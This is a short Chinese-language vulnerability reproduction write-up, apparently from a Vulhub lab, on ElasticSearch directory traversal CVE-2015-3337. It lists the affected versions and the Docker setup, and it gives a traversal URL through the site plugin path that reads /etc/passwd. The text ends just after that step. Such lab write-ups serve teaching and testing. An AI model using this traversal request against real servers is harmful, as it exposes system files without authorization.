

# ElasticSearch 目录穿越漏洞 CVE-2015-3337

## 漏洞描述

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 漏洞影响

```
Elasticsearch 1.4.5以下/1.5.2以下
```

## 环境搭建

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.4

Vulhub编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

## 漏洞复现

访问`http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

